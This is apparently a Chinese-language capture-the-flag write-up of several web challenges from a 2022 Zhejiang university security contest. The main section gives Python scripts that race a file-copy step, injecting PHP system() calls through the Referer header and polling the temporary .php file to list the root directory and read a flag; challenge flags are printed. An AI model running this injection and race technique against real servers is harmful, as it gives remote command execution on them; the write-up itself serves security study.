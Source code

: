 ```yaml
---
title: 第五届浙江省大学生网络与信息安全竞赛-技能挑战赛Web Writeup
date: 2022-03-14 22:46:00
updated: 2022-03-14 22:46:00
tags: [ctf,security]
---
```


记录省赛预赛两道没做出的Web题

## 买买买01
条件竞争，当时没思考清楚的问题是，我知道通过条件竞争可以短时间的在系统上有一个.txt.php文件，但是没想明白怎么去让这个php文件被解析，因为file_get_contents这个函数只能读取文件内容但是却不会解析。其实只要直接访问就行。。。。

多线程也行，同时运行俩python文件也行。

```python
import requests
while 1:
    response = requests.get(
        "http://1.14.97.218:21715/e7a1b1b1e092b53be5fa11394bbed8fb/e7a1b1b1e092b53be5fa11394bbed8fb.txt2.php")
    if response.status_code != 404:
        print(response.text)
```

```python
import requests
while 1:
    # res = requests.get("http://1.14.97.218:21715/index.php?action=copy", headers={"referer": "<?php system('ls /');?>"})
    res = requests.get("http://1.14.97.218:21715/index.php?action=copy", headers={"referer": "<?php system('cat /fla444444444444g');?>"})
    # print(res.text)

```

```python
competebin
boot
dev
etc
fla444444444444g
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
```

```
competeDASCTF{43378609768205435621416258245141}
```

## nisc_easyweb
这个电脑没装扫描器省赛又不让上网。。。。所以根本就没发现/robots.txt

纯傻逼题目。。。

```python
http://1.14.97.218:27359/test_api.php?i=FlagInHere

DASCTF{84772015113998304475018439433695}
```

## js小游戏
f12一看index.js,base64解码就行

## 学生管理系统
注册账号就有Flag,可能是非预期吧

感觉预赛的时候有点手忙脚乱，继续沉淀。